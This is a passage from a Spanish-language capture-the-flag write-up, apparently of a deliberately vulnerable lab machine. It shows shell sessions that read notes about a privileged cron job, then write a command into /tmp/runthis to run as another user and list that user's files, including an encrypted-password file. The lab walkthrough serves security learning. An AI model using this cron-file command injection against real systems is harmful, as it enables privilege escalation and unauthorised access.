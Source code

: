 Podemos entrar al usuario `eezeepz`:
```python
bash-4.1$ ls
MAKEDEV    chown	hostname  netreport	  taskset     weak-modules
cbq	   clock	hwclock   netstat	  tc	      wipefs
cciss_id   consoletype	kbd_mode  new-kernel-pkg  telinit     xfs_repair
cfdisk	   cpio		kill	  nice		  touch       ypdomainname
chcpu	   cryptsetup	killall5  nisdomainname   tracepath   zcat
chgrp	   ctrlaltdel	kpartx	  nologin	  tracepath6  zic
chkconfig  cut		nameif	  notes.txt	  true
chmod	   halt		nano	  tar		  tune2fs
bash-4.1$ pwd && cat notes.txt
/home/eezeepz
Yo EZ,

I made it possible for you to do some automated checks, 
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my 
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The 
output goes to the file "cronresult" in /tmp/. It should 
run every minute with my account privileges.

- Jerry

```

Buscando más archivos `.txt` encontramos en `/var/www` que jerry está muy al pendiente de eezeepz:
```js
bash-4.1$ cat /var/www/notes.txt
hey eezeepz your homedir is a mess, go clean it up, just dont delete
the important stuff.

-jerry
```

Pero bueno... La primera nota nos da más información y dice que hay un cronjob corriendo cada minuto bajo el usuario `eezeepz`. Este cronjob: ejecuta contenido del archivo `/tmp/runthis`; guarda el contenido en `/tmp/cronresult`.

De hecho podemos intentar ejecutar un comando simple pero útil para validar el funcionamiento del cronjob.

```python
bash-4.1$ /home/admin/echo "mensaje desde el cron"
bash: /home/admin/echo: Permission denied
bash-4.1$ echo "/home/admin/echo travesura en el cron | ls /home/admin" > /tmp/runthis
bash-4.1$ sleep 60
bash-4.1$ cat /tmp/cronresult
executing: /home/admin/echo travesura en el cron | ls /home/admin
cat
chmod
cronjob.py
cryptedpass.txt
cryptpass.py
df
echo
egrep
grep
ps
whoisyourgodnow.txt
```
